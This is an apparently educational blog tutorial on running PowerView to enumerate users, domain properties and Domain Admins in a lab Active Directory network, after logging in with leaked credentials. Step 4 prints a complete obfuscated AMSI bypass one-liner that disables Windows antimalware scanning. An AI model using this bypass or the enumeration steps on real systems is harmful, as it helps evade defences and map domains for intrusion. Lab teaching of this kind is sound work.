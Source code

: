 ```yaml
---
title:  "Day 53 - PowerView - 100 tools in 100 days!"
excerpt: "In this post, I will show you the tool PowerView and how it works."
mathjax: true
layout: post
categories:
    -- github
    -- website
---
```


1 . Introduction
<br>
2 . My Setup
<br>
3 . What is PowerView?
<br>
4 . Why use PowerView?
<br>
5 . How to use PowerView?
<br>
6 . Summary

---

## This post is designed to introduce you to the tool PowerView.

![](https://raw.githubusercontent.com/matthewomccorkle/matthewomccorkle.github.io/master/_posts/assets/100%20tools/powerview/powerview0.png)

# <span style="color:red">***Disclaimer***</span> : **Please only use PowerView for professional and educational reasons. Do not use this tool for nefarious or malicious reasons.**

---

### 1. **Introduction**

Welcome to the **fifty-third** blog post of 100 tools in 100 days.<br> 

Find **PowerView** @ GitHub [here](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1).

PowerView was created by Will Schroeder (@harmj0y) find him at:

[GitHub](https://github.com/HarmJ0y)

[LinkedIn](https://www.linkedin.com/in/willschroeder/)

[Twitter](https://twitter.com/harmj0y)


---

### 2. **My Setup**

For running the PowerView tool, I used Kali Linux in a VMware Workstation 16 Player virtualized environment.

For my victim network, I am running a virtualized Active Directory Domain Controller and Windows 10 Enterprise Edition user in a VMware Workstation 16 Player virtualized environment. 

I am using this simple [cheat sheet](https://github.com/drak3hft7/Cheat-Sheet---Active-Directory) for PowerView command reference.

---

### 3. **What is PowerView?**

PowerView is an enumeration PowerShell script that allows a user to discover and identify various aspects of an Active Directory.

---

### 4. **Why use PowerView?**

PowerView is an initial environment reconnaissance tool for security researchers. 

Reconnaissance occurs at various stages of the penetration testing process. 

This particular initial reconnaissance would be after authenticating as a user on an Active Directory domain. 

Therefore, this reconnaissance phase should not be confused with the overall initial discovery reconnaissance phase where you are determining IP addresses, domain names, and services using tools like Nmap. 

PowerView allows a researcher to find other users, domain admins, computers, groups, shares, Group Policies, domain trusts, and much more just as a regular user. 

---

### Before moving forward:

 - I am using a virtualized AD network with a Domain Controller and one user signed in. 
 - For these examples, I had to relax the Firewall settings on the victim.
 - I am using OpenSSH server on the users computer. (the vulnerable service) 
 - Before this point in the attack chain I completed a full enumeration of the network and gained access to leaked credentials for the user.
 - Not every active directory attack will function the same, and likely you would not find an environment where firewall solutions are relaxed.
 - I used BadBlood to automate the creation of my Active Directory, you can do the same by visiting the BadBlood page [here](https://github.com/davidprowe/BadBlood).

### 5. **How to use PowerView?**

It is important to remember that PowerView is a ps1 script that needs to be on the users device to run. 

I will go over: 
 - How to securely copy the script to the victim device. 
 - How to execute the script via an SSH terminal established from leaked credentials. 
 - Some of the scripts functions that can be used for further pivoting and potential privilege escalation. 

Ensure you have [PowerView.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1) downloaded to your attacking device.

    Step 1:
    Securely copy the PowerShell script using the following command:

    scp PowerView.ps1 <USERNAME>@<DOMAIN>:<PATH TO DOWNLOAD TO>

<br>

![](https://raw.githubusercontent.com/matthewomccorkle/matthewomccorkle.github.io/master/_posts/assets/100%20tools/powerview/powerview1.png)

    Step 2:
    SSH into the victim device using the leaked credentials:

    ssh <USERNAME>@<DOMAIN>

<br>

    Step 3:
    Enter the following command to upgrade to a PowerShell terminal:
    
    powershell -ep RemoteSigned

<br>

![](https://raw.githubusercontent.com/matthewomccorkle/matthewomccorkle.github.io/master/_posts/assets/100%20tools/powerview/powerview1a.png)

    Step 4:
    Enter the following command to bypass Windows Antimalware:

    S`eT-It`em ( 'V'+'aR' +  'IA' + ('blE:1'+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile')  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )

<br>

You can read more about this Antimalware Scan Interface bypass [here](https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell).

![](https://raw.githubusercontent.com/matthewomccorkle/matthewomccorkle.github.io/master/_posts/assets/100%20tools/powerview/powerview1b.png)

    Step 5:
    Navigate to the file path where you securely copied the PowerView.ps1 file and enter the following command:

    . .\PowerView.ps1

<br>

You likely will not get a response back from executing PowerView.ps1 which is normal. 

![](https://raw.githubusercontent.com/matthewomccorkle/matthewomccorkle.github.io/master/_posts/assets/100%20tools/powerview/powerview2.png)

    Step 6:
    First, lets get the list of users in the environment (note if you have a lot of users this will spam your terminal):

    Get-NetUser

<br>

![](https://raw.githubusercontent.com/matthewomccorkle/matthewomccorkle.github.io/master/_posts/assets/100%20tools/powerview/powerview3.png)

    Step 7:
    View the properties of the current domain by entering:

    Get-NetDomain

<br>

![](https://raw.githubusercontent.com/matthewomccorkle/matthewomccorkle.github.io/master/_posts/assets/100%20tools/powerview/powerview4.png)

    Step 8:
    View members of the group "Domain Admins" by entering the following:

    Get-NetGroup

    When prompted for identity 1 enter Domain Admins

    When prompted for identity 2 press enter

<br>

![](https://raw.githubusercontent.com/matthewomccorkle/matthewomccorkle.github.io/master/_posts/assets/100%20tools/powerview/powerview6.png)


### 6. **Summary**

Not all PowerView commands work for every active directory environment, however, many of the options in PowerView are a great place to start when enumerating active directory during your environment reconnaissance. 

I hope you enjoyed this blog post.

Thanks for reading!<br>

If you have suggestions for what tool to cover next, [contact](mailto:matthew.o.mccorkle@gmail.com) me!
